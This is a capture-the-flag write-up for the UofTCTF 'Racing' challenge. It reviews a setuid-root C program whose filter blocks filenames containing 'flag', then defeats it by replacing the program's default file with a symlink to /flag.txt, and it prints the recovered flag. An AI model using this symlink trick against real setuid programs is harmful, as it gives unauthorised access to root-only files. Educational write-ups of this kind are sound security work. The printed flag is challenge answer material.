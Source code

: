 ```yaml
---
title: UofTCTF - Racing
published: 2025-01-14
description: ''
image: ''
tags: [UofTCTF,]
category: 'misc'
draft: false 
lang: ''
---
```


# Intro


First of all, let's take a look at the challenge : 
<br/>
![test](../../assets/Racing/Pasted%20image.png)

Nothing really interesting but they gave us a copy of the binary running on the machine.

When we connect to the machine, we can see a `flag.txt` that we can read. So, we can imagine that the challenge is to exploit the binary to read `flag.txt`.
Lets review the code : 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char **argv)
{
    if (setuid(0) != 0)
    {
        perror("Error setting UID");
        return EXIT_FAILURE;
    }

    char *fn = "/home/user/permitted";
    char buffer[128];
    char f[128];
    FILE *fp;

    if (!access(fn, R_OK))
    {
        printf("Enter file to read: ");
        fgets(f, sizeof(f), stdin);
        f[strcspn(f, "\n")] = 0;

        if (strstr(f, "flag") != NULL)
        {
            printf("Can't read the 'flag' file.\n");
            return 1;
        }

        if (strlen(f) == 0)
        {
            fp = fopen(fn, "r");
        }
        else
        {
            fp = fopen(f, "r");
        }

        fread(buffer, sizeof(char), sizeof(buffer) - 1, fp);
        fclose(fp);
        printf("%s\n", buffer);
        return 0;
    }
    else
    {
        printf("Cannot read file.\n");
        return 1;
    }
}

```

I'm not a C expert but I understood that this code asks us for a file to read with `root permissions` : 

```c
//here, the program starts by upgrading the process privileges to root
if (setuid(0) != 0)
```

```c
printf("Enter file to read: ");
        fgets(f, sizeof(f), stdin);
        f[strcspn(f, "\n")] = 0;
```

But we can't read directly the flag file : 

```c
if (strstr(f, "flag") != NULL)
        {
            printf("Can't read the 'flag' file.\n");
            return 1;
        }
```

# Exploit

Something more interesting is the fact that if we don't specify any file, the code will read the file at `"/home/user/permitted"` : 

```c
char *fn = "/home/user/permitted";
```

```c
//here, f is is the result of the user input.
if (strlen(f) == 0)
        {
            fp = fopen(fn, "r");
        }
        else
        {
            fp = fopen(f, "r");
        }
```

So, my idea was to link the "permitted" file to flag.txt with a `symbolic link`, as we have root privileges by running the program (So we can read the flag file, which is owned and only readable by root).


```shell
User@containerssh-hblmc:/challenge$ rm /home/user/permitted
User@containerssh-hblmc:/challenge$ ln -s /flag.txt /home/user/permitted
```
:::important
If you're not familiar with symbolic links, think of them as a shortcut on the desktop: they are special files that point to another file. If we open this link, we can access the original file. If the original file is deleted or moved, the link no longer works.

:::

With this, if we don't specify any file, the program will try to read `/home/user/permitted`, but with the symbolic link, it will instead read the `flag.txt` file."

Lets run the code now : 

```shell
User@containerssh-hblmc:/challenge$ ./chall
Enter file to read : 
uoftctf{r4c3_c0nd1t10n5_4r3_c00l}
```

Bingo ! we have the flag ! 



